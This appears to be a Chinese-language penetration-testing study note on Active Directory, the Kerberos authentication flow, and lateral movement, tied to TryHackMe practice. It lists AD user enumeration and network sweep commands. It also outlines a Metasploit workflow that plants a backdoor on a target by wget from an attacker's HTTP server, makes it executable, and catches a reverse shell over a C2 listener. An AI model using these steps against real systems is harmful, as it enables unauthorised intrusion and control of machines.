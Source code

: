 ### AD（Active Directory）

* Windows Server 中用來建立中大型網路環境的集中式**目錄管理服務**
* 網路物件：使用者、群組、電腦、網域控制站、郵件、設定檔、組織單元、樹系
    * Forest 樹系：由一個以上的 domain 組成
    * 每個 domain 至少有一個以上的 domain controller
    * AD DS 有各種服務，如：LDAP、SMB、Kerberos、DNS、NTP
* 在 AD Schema 中定義的物件就可以儲存在 AD 資料庫中，並透過 Service Interface 存取
* 掃描一下機器拓樸
* 尋血犬 BloodHound：分析網域物件資訊、圖形化、物件關係
* 雖然 9 成企業有安裝 AD CS，但是其中 7 成設定不安全，其中又有 8 成可利用

```bash frame="none"
net user                    # 本地使用者
net user /domain            # 網段中的使用者
net user <name> /domain     # 列舉指定使用者
```

### Kerberos Authentication

1. AS-REQ（請求 TGT）：用 client’s secret key(從密碼衍伸) 加密 timestamp (pre-quthentication)
2. AS-REP（頒發 TGT）：DC 用 client’s secret key 解開 timestamp 驗證，接著頒發的 TGT 以 krbtgt’s secret key 加密
3. TGS-REQ（請求 ST, service ticket）：包含取得的 TGT 和目標 SPN
4. TGS-REP（頒發 ST）：DC 用 krbtgt’s secret key 解開 TGT 驗證資訊，接著頒發 ST 以 Server’s secret key 加密
5. AP-REQ（存取服務）：包含 ST，由 Server 解密 ST 驗證資訊
6. AP-REP（Optional）：雙向驗證時需要

# 5. Lateral Movement

* 先備知識：routing, NAT, proxy, iptables, metasploit, reverse shell
* 在內網中尋找目標
* [內網綜合掃描工具](https://github.com/shadow1ng/fscan)
* 找到機器後一樣掃 port 和 service：nmap/rustscan
* TryHackMe 練習場 - [Blue](https://tryhackme.com/room/blue)

## 掃描可達網段及機器

```bash frame="none"
# port scan
nmap -sn 192.168.1.0/24
for i in `seq 1 254`; do (ping -c 1 192.168.1.$i | grep "bytes from" &); done
# arp scan
netdiscover -r 192.168.1.0/24
```

## Metasploit Framework

1. 產生後門程式
* ip 填 interface ip (wg0)
* port 填彈回來的 shell 接入的 port
2. 開啟 C2 監聽器
3. 開啟本地 http server (8000)
    * `python3 -m http.server`
4. 去靶機的 /tmp 執行 wget ip:port:8000/backdoor
5. 加上執行權限 `chmod +x ./backdoor`
6. 本機可以看到收到東西了
